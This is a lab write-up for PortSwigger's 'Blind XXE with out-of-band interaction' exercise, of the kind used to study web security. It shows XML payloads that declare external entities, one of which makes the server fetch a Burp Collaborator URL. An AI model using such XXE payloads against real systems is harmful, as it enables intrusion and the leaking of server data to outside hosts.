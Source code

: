 ```yaml
---
title: 'Lab: Blind XXE with out-of-band interaction'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/Blind XXE"
---
```


# Lab: Blind XXE with out-of-band interaction
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
* Goal: To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint:

## [Background](https://portswigger.net/web-security/xxe/blind)
> 有兩種廣泛的方法可以找到和利用Blind XXE 漏洞：
>
>您可以觸發out-of-band網絡交互，有時會在交互數據中泄露敏感數據。
>您可以通過錯誤消息包含敏感數據的方式觸發 XML 解析錯誤。

## Recon
1. Declare a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/BJpoMFLE2.png)
    As the result above, it seems can accept a new entity, then we can use it in `xml`
    
    ---
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/HkO4QYUEn.png)

2. So..., we can use out-of-band server try to leak some information


## Exp
1. Use Burp Collaborator
![](https://hackmd.io/_uploads/Sk3lDtIVh.png)
And copy the collaborator's payloads
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://s92t6q0ljljd7fttguns4mrdy44wsl.burpcollaborator.net"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    
2. Result
    ![](https://hackmd.io/_uploads/S1W7YKIV3.png)

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/r13iWF84h.png)
:::

## Reference
[Lab: Blind XXE with out-of-band interaction](https://www.cnblogs.com/Zeker62/p/15190054.html)
[XXE Lab Breakdown: Blind XXE with out-of-band interaction](https://youtu.be/T3eo0CtYzYo)